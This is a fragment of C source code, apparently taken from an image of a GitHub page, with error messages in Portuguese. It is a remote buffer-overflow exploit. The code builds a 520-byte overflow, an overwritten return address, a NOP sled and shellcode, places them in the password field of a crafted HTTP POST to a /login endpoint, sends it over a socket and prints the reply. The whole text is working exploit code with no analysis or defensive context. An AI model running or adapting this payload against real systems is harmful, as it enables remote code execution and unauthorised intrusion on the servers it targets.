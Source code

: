 ```c
    memset(buf, 'A', 520);
    buf[520] = '\x83';
    buf[521] = '\x0C';
    buf[522] = '\x09';
    buf[523] = '\x10';
    memset(buf + 524, '\x90', 20); // NOP sled
    memcpy(buf + 544, shellcode, sizeof(shellcode) - 1);
    memset(buf + 544 + (sizeof(shellcode) - 1), 'C', 380 - (sizeof(shellcode) - 1));
    buf[924] = '\0';

    snprintf(payload, sizeof(payload), "username=admin&password=%s", buf);

    snprintf(request, sizeof(request),
        "POST /login HTTP/1.1\r\n"
        "Host: %s\r\n"
        "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0\r\n"
        "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n"
        "Accept-Language: en-US,en;q=0.5\r\n"
        "Accept-Encoding: gzip, deflate\r\n"
        "Content-Type: application/x-www-form-urlencoded\r\n"
        "Content-Length: %lu\r\n"
        "Origin: http://%s\r\n"
        "Connection: keep-alive\r\n"
        "Referer: http://%s/login\r\n"
        "Upgrade-Insecure-Requests: 1\r\n"
        "\r\n"
        "%s",
        SERVER_IP, strlen(payload), SERVER_IP, SERVER_IP, payload);

    printf("[*] Sending shellcode payload...\n");

    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
        perror("Erro ao criar socket");
        return 1;
    }

    server.sin_family = AF_INET;
    server.sin_port = htons(SERVER_PORT);
    if (inet_pton(AF_INET, SERVER_IP, &server.sin_addr) <= 0) {
        perror("Endereço inválido");
        close(sock);
        return 1;
    }

    if (connect(sock, (struct sockaddr *)&server, sizeof(server)) < 0) {
        perror("Erro ao conectar ao servidor");
        close(sock);
        return 1;
    }

    if (send(sock, request, strlen(request), 0) < 0) {
        perror("Erro ao enviar dados");
        close(sock);
        return 1;
    }

    int bytes_received = recv(sock, buffer, sizeof(buffer) - 1, 0);
    if (bytes_received > 0) {
        buffer[bytes_received] = '\0';
        printf("Resposta:\n%s\n", buffer);
    } else {
        perror("Erro ao receber resposta");
    }
```